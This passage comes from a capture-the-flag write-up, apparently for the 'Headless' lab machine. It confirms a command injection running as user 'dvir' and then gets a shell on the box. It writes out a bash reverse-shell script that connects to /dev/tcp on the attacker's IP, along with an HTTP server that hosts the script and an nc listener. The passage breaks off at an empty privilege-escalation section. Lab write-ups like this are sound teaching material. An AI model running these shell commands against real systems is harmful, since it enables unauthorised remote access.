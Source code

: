 ![Pasted image 20240710143327.png](../assets/images/Pasted%20image%2020240710143327.png)
After the 'Systems are up and running!' message we now see 'dvir'. That must mean that our command injection worked and 'dvir' is the user running the webserver! We'll follow this up by creating a reverse shell, hosting it with a simple http server, starting a netcat listener, and then downloading and executing it with our modified POST request.
```
$ cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/{attacker IP}/1337 0>&1
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
In a separate terminal tab or window...
```
nc -lvnp 1337
listening on [any] 1337 ...
```
![Pasted image 20240710144502.png](../assets/images/Pasted%20image%2020240710144502.png)
And we got a shell!
```
listening on [any] 1337 ...
connect to [10.10.*.*] from (UNKNOWN) [10.10.11.8] 53468
bash: cannot set terminal process group (1352): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ whoami
whoami
dvir
```
Head over to `/home/dvir/` for the user flag and then we'll work on privilege escalation.
## Privilege Escalation
The first thing I like to check for elevating privileges is our sudo permissions.
```
```